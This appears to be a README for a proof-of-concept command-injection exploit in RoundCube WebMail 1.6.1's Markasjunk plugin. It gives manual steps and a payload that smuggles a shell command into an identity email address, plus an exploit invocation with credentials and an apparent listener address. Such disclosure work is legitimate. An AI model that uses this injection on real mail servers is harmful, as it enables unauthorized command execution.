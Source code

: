 # RoundCube WebMail 1.6.1 - Markasjunk Vulnerability PoC

## Overview

This repository contains a Proof of Concept (PoC) for the `Markasjunk` plugin vulnerability in RoundCube WebMail version 1.6.1 (Used version for test). The vulnerability allows an attacker to execute arbitrary commands due to improper filtering of user inputs.

## Prerequisites

- Access as User (got credentials!)

## Manual Proof of Concept

1. Log in to the RoundCube WebMail interface.
2. Navigate to `Settings -> Identities`.
3. Modify the email address to include the payload:
    ```
    pwn&touch${IFS}test.txt&@pwn.com
    ```
4. Move any email to the "junk folder".
5. Verify that the command has been executed by checking for the presence of `test.txt` in the server's file system.
   [Reference](https://cyberthint.io/roundcube-markasjunk-command-injection-vulnerability/)

## Exploit use example

This PoC is for educational purposes only. Use it at your own risk. The author is not responsible for any damage caused by the misuse of this information.
```
./exploit vulnerablehost.com pwned@user.pwn PwnPassword! 127.0.0.1 1337
```

![PoC](https://github.com/s4orii/PoC-RoundCube-1.6.1-Plugin-RCE/blob/5a3408b8e192fa4945c9260d61faa0a4ae8a2d47/PoC.mp4))

